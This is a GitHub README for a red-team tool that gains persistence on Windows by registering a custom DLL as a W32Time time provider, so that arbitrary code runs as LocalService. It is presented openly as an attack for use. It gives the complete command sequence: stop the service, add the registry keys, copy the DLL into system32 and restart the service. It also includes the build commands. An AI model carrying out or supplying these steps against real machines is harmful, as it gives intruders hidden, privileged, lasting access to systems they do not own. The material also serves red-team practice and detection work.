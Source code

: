 # w32TimePersistence

Windows high-privilege persistence technique that consists in adding a new Time Provider and writing a custom DLL based off of [this](https://learn.microsoft.com/en-us/windows/win32/sysinfo/sample-time-provider) Sample Time Provider DDL template from Microsoft to execute code as the `LocalService` user.

To read a more in-depth analysis of this technique read [this](https://otter.gitbook.io/red-teaming/articles/gaining-persistence-on-windows-with-time-providers) article ʕ •ᴥ•ʔ

## Usage
To use this technique, put whatever code you want to execute inside the `definitelyLegit` function in the [library.cpp](https://github.com/otterpwn/w32TimePersistence/blob/main/library.cpp) file, compile the DLL and perform the following steps

1. Stop the w32time service
2. Add a registry entry for a new Time Provider pointing the DllName key to our DLL
3. Enable the new Time Provider and set it as a input Time Provider
4. Copy our DLL into the desired location
5. Start the process up again

```
sc stop w32time

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\w32TimePersistence.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_DWORD /v "InputProvider" /d "1" /f

copy w32TimePersistence.dll C:\windows\system32\

sc start w32time
```

## How to compile
Start the Developer Command Prompt for Visual Studio and compile with the following commands
```
mkdir build
cd build
cl /D_USRDLL /D_WINDLL ..\library.cpp ..\library.def /MT /link /DLL /OUT:w32TimePersistence.dll
```

Watch the video below to see the full attack

https://github.com/otterpwn/w32TimePersistence/assets/54770684/cfb99d44-9b3e-4a5d-bb29-2e51119cac52
